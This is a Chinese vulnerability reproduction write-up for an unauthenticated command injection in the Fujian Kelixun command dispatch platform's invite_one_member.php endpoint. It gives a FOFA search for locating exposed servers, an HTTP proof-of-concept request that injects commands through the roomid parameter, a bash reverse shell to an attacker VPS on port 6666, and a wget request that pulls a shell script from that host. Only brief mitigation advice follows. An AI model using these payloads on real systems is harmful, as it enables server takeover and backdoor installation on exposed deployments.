





# 福建科立讯通信 指挥调度管理平台RCE漏洞复现

### 0x01 产品简介

   福建科立讯通信指挥调度管理平台是一个专门针对通信行业的管理平台。该产品旨在提供[高效的](https://so.csdn.net/so/search?q=%E9%AB%98%E6%95%88%E7%9A%84&spm=1001.2101.3001.7020)指挥调度和管理解决方案，以帮助通信运营商或相关机构实现更好的运营效率和服务质量。该平台提供强大的指挥调度功能，可以实时监控和管理通信网络设备、维护人员和工作任务等。用户可以通过该平台发送指令、调度人员、分配任务，并即时获取现场反馈和报告。

### 0x02 漏洞概述

  福建科立讯通信有限公司指挥调度管理平台invite\_one\_member.php接口处存在远程命令执行漏洞，未经身份认证的攻击者可通给该漏洞远程执行命令，写入后门文件可导致服务器失陷。

### 0x03 复现环境

FOFA：body="指挥调度管理平台"



### 0x04 漏洞复现 

PoC

```cobol
GET /api/client/audiobroadcast/invite_one_member.php?callee=1&roomid=`id>1.txt` HTTP/1.1
Host: your-ip
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

PS：漏洞没有回显，可将命令结果写到txt里面或者dnslog平台验证 





**反弹Shell**

```typescript
!/bin/sh
bash -c 'exec bash -i >& /dev/tcp/VPSip/6666 0>&1'
```

```cobol
GET /api/client/audiobroadcast/invite_one_member.php?callee=1&roomid=`wget+http://vpsip/1.sh+-O+/tmp/shell.sh` HTTP/1.1
Host: your-ip
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```



###  0x05 修复建议

 关闭互联网暴露面或接口处设置访问权限

 升级至安全版本
